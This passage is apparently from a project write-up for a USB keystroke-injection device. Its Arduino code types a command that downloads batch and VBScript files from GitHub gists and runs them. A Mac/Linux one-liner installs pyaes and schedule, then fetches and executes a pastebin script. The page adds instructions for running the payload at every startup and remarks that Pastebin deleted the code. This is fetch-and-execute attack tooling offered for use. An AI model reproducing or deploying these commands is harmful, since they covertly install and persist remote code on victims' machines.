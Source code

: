     // Wait for the computer to register the press.
    
          Keyboard.print("curl -s https://gist.githubusercontent.com/lennymelnik/41239f2cfb68673595835071b5cd8cd3/raw/88a437c5a5f1a37479f056594d39fe69802e158b/checkPython > checkPython.bat && curl -s https://gist.githubusercontent.com/lennymelnik/608ddc3fd7db791a6ad7930a3cbf9b85/raw/943f3b5f008e862f6c5e4978281e7bfe20e6cb1c/startEverything > startEverything.vbs && startEverything.vbs");
                                      delay(2000);                       // Wait for the computer to register the press.
    
            Keyboard.press(KEY_RETURN);
                                                      delay(100);                       // Wait for the computer to register the press.
    
                 Keyboard.releaseAll(); 
    
            
    
                    Keyboard.print("exit");
                                              delay(100);                       // Wait for the computer to register the press.
    
                    Keyboard.press(KEY_RETURN);
                                              delay(100);                       // Wait for the computer to register the press.
                 Keyboard.releaseAll(); 
    
                 
    
      } else {
        // turn LED off:
      }  
      
      
      
                           // Wait for the computer to register the press.
    
      
    
    }
    ```
    
- Mac/Linux Command
    
    ```jsx
    pip install schedule pyaes && curl -s https://pastebin.com/raw/Nbf5criN > myProgram.py && python myProgram.py
    ```
    

## Making it run on every startup

[Run on startup](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create)

# Issues

---

### Pastebin Deleted my Code

![Pastebin deleted code](/assets/one-line/pastebin.png)

---